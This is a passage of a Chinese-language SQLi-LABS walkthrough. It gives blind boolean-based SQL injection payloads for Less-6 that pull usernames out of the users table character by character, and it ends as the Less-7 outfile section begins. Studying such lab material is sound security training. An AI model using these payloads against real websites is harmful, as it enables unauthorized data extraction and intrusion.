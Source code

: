```sql
# 正确
1" and 1=1--+
# 错误
1" and 1=2--+
```

+ 由于Less-6了Less-5注入方式是差不多所以我们就不重复Less-5的步骤直接执行最后的步骤：

```sql
# 查询第一位数据
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),1,1)='a',1,0) --+
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),1,1)='b',1,0) --+
...
# 正确
/?id=1" and 1=if(substr((select group_concat(username) from users),1,1)='d',1,0) --+

# 查询第二位数据
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='a',1,0) --+
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='b',1,0) --+
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='c',1,0) --+
...
# 正确
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='u',1,0) --+
```

## Less-7 转储到outfile

+ 这里题目提醒我们要使用outfile

![image-20210924201419355](../../images/SQLi-LABS/image-20210924201419355.png)
